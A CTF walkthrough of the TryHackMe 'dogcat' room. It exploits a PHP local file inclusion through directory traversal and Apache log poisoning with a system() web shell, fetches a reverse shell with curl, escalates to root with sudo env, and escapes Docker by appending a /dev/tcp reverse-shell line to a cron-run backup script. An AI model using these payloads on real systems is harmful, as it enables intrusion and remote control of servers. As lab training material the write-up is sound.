 ```yaml
---

title: dogcat
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/dogcat
Description: a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.
tags: php, lfi, docker, security
---
```


* * * 

# Notes

4 flags for this task.

start by booting up the machine and performing my nmap scans. `nmap -p- dogcat.thm -vvv`. Also check out the website. Here we see a question cats or dogs...hard choice both good but these seem to be calling a view function in the php. Should see if we can check for LFI. Booting up burpsuite.

lets try to bypass with directory traversal

<img src="/assets/dogcat01.png" alt="Dog Cat">

the base64 is the encoded index.php

```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

going to run a few gobuster scans 

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php`

and

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x txt,php`

we find a few different files, flag.php 

```
/index.php            (Status: 200) [Size: 418]
/cat.php              (Status: 200) [Size: 26]
/flag.php             (Status: 200) [Size: 0]
/cats                 (Status: 301) [Size: 307] [--> http://dogcat.thm/cats/]
/dogs                 (Status: 301) [Size: 307] [--> http://dogcat.thm/dogs/]
/dog.php              (Status: 200) [Size: 26]
```

sending the request for flag.php through burpsuite repeater gets us our first flag.

our nmap scan shows the server is running apache. we can try to get code execution with log poisoning.

access the log for apache is at `/var/log/apache2/access.log` so we can try to view it like this `/?view=./dog/../../../../../../../var/log/apache2/access/log&ext`

we can edit our user-agent parameter to this php script to use for the log code execution `<?php system($_GET['cmd']);?>`

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami HTTP/1.1`

we can see the response www-data. lets try to get a reverse shell.

setting up pwncat listener. `pwncat-cs -lp 6669`, and gets get a pentestmonkey shell from <a href="https://www.revshells.com/">revshells.com</a> and setup a python webserver then curl or wget it to the server.

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl+http%3a//10.2.3.64/rev.php+-o+rev.php`

we are now setup on the system with a www-data reverse shell. we can run linpeas in tmp to check for quick escalation.

checking `sudo -l` we are allowed to run `env` as root. `env` we can used this to break out of this enviroment by spawning an interactive shell with `sudo env /bin/sh`.

we can pickup the 3rd flag in `/root/`

missing the second flag... quick `find / -name *flag` finds it.

now time to break out of the docker.

checking the backup we can see that the date is much more recent than the script so the backup much be run regularly on the target machine. we can take advantage of this and edit the script to send us back a reverse shell.

```
(remote) root@3754df62901f:/opt/backups$ echo "#!/bin/bash" > backup.sh
(remote) root@3754df62901f:/opt/backups$ echo "sh -i >& /dev/tcp/10.2.3.64/6669 0>&1" >> backup.sh
```

and we should recieve a connection back soon on 6669

```
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:44:04] 10.10.48.124:48848: normalizing shell path                                                                                                                                               manager.py:957
[04:44:06] 10.10.48.124:48848: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:44:08] 10.10.48.124:48848: registered new host w/ db                                                                                                                                            manager.py:957
(local) pwncat$ sessions
[04:44:41] listener: 0.0.0.0:6669: connection from 10.10.48.124:48848 aborted: channel receive timed out: b'RNuShuMhU7VfPUvEQ\n/c/pass 1512 4 0ca02  1 0  16712437 18949835249 0 6\nCUaT8\nEBfk6\n' manager.py:957
           warning: 10.10.48.124:48848: channel closed                                                                                                                                              manager.py:957
(local) pwncat$ sessions
                                    Active Sessions                                    
     ╷      ╷                                  ╷          ╷      ╷                     
  ID │ User │ Host ID                          │ Platform │ Type │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪══════╪════════════════════ 
  *0 │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind │ 10.10.48.124:35818  
     ╵      ╵                                  ╵          ╵      ╵                     
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:45:04] 10.10.48.124:48850: normalizing shell path                                                                                                                                               manager.py:957
[04:45:06] 10.10.48.124:48850: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:45:08] 10.10.48.124:48850: loaded known host from db                                                                                                                                            manager.py:957
[04:45:11] listener: 0.0.0.0:6669: linux session from 10.10.48.124:48850 established                                                                                                                manager.py:957
(local) pwncat$ sessions
                                     Active Sessions                                     
     ╷      ╷                                  ╷          ╷        ╷                     
  ID │ User │ Host ID                          │ Platform │ Type   │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪════════╪════════════════════ 
  0  │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind   │ 10.10.48.124:35818  
  *1 │ root │ 6fce223e51db7cddc12b57468a770298 │ linux    │ Socket │ 10.10.48.124:48850  
     ╵      ╵                                  ╵          ╵        ╵                     
(local) pwncat$ sessions 1
[04:45:30] targeting session-1 (10.10.48.124:48850)                                                                                                                                                 sessions.py:88
(local) pwncat$                                                                                                                                                                                                   
(remote) root@dogcat:/root# ls -las
total 40
4 drwx------  6 root root 4096 Apr  8  2020 .
4 drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
0 lrwxrwxrwx  1 root root    9 Mar 10  2020 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
4 drwx------  2 root root 4096 Apr  8  2020 .cache
4 drwxr-xr-x  5 root root 4096 Mar 10  2020 container
4 -rw-r--r--  1 root root   80 Mar 10  2020 flag4.txt
4 drwx------  3 root root 4096 Apr  8  2020 .gnupg
4 drwxr-xr-x  3 root root 4096 Apr  8  2020 .local
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root   66 Mar 10  2020 .selected_editor
(remote) root@dogcat:/root# cat flag4.txt
```


